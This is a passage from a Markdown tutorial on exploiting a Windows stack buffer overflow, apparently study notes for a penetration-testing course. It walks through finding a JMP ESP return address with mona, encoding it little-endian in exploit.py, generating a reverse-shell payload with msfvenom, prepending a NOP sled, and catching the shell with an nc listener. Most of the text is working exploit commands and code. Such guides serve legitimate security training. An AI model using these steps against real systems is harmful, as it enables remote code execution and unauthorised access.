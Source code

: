 `!mona find -s "\xff\xe4" -m <DLL>`
### Return address
Choose an address in the results and update exploit.py :

- List itemSetting the retn variable to the address, written backwards (little-endian)
```
# Example of a JMP ESP address
0x625011af

# exploit.py
retn = "\xaf\x11\x50\x62"
```
***
## Generate payload
Now we generate our shellcode without the badchars that we found :

`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c`
Copy the generated shellcode and update exploit.py :

- List itemSetting the payload variable equal to the shellcode
***
## Prepend NOPs
A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, \x90 represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.

`padding = "\x90" * 16`
***
## Start a listener
`nc -lvnp <PORT>`
